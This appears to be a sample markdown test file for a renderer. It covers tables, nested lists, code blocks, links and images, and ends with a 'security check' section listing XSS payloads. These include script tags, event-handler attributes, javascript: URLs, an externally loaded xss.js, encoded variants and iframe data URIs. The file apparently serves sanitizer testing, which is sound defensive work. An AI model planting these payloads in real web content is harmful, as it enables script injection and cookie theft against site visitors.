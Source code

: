 # Sample markdown

It's a sample markdown file.

---

fadfadfasfafdaf
fadfasfdadfafasfdafdaf

| Tables        | Are           | Cool  |
| ------------- |:-------------:| -----:|
| col 3 is      | right-aligned | $1600 |
| col 2 is      | centered      |   $12 |
| zebra stripes | are neat      |    $1 |

> Reference

fadfasdf

> Reference
> Reference
> Reference

1. x

    1. xx
        - aaa
        - bbb
        - ccc

    2. yy
        * hoge
        * fuga

    3. zz

2. y

3. z

## h2 hogehoge

*italic*

**emphasis**

~~line through~~

### h3 aaa

  list

  * item 1

    `code.js`

    ```js
    const a = 'aaa'
    const n = 3

    function loopLog(str, num) {
      for (let i = 0; i < num; i++) {
        console.log(str)
      }
    }

    loopLog(a, n)
    ```

  * item 2

    * item 2-a
    * item 2-b
    * item 2-c
    * item 2-d

  * item 3

    nothing

  * item 4

### h3 b

### h3 cc


## h2 fugafuga

[sample link](https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4)

<a href="https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4" target="_blank" rel="noopener noreferer">sample link with target blank</a>

<img src="https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4" alt="sample image" width="120">

![sample image](https://avatars3.githubusercontent.com/u/10173918?s=460&u=caebae8e7d279c8f0420a0f20d8ca64d6da53853&v=4)


## h2 piyopiyo

youtube movie link with thumbnail

<a href="http://www.youtube.com/watch?feature=player_embedded&v=x1ci-O_7AWA
" target="_blank" rel="noopener noreferer"><img src="http://img.youtube.com/vi/x1ci-O_7AWA/0.jpg"
alt="IMAGE ALT TEXT HERE" width="240" height="180" /></a>


## h2 security check

<a href="https://www.google.com" target="_blank" onclick="alert('xss!aaa')">XSS link</a><br>
<script>alert('xss!')</script>
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

[Click Me](javascript:alert('Uh oh... xss'))
![Uh oh...]("onerror="alert('XSS'))
![Uh oh...](https://www.example.com/image.png"onload="alert('XSS'))
<b onmousemove="alert('XSS')" onclick="alert('XSS')" onmousehover="alert('XSS')" >XSS!</b>
<b　onmousemove="alert('XSS')" style="padding: 10000px;margin: -10000px;">XSS</b>
<b/onmousemove="alert('XSS')">XSS!</b>
<code lang="py" onmousemove='alert("XSS")'>
print(0)
</code>
<iframe srcdoc="<script>alert('XSS');</script>"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+">
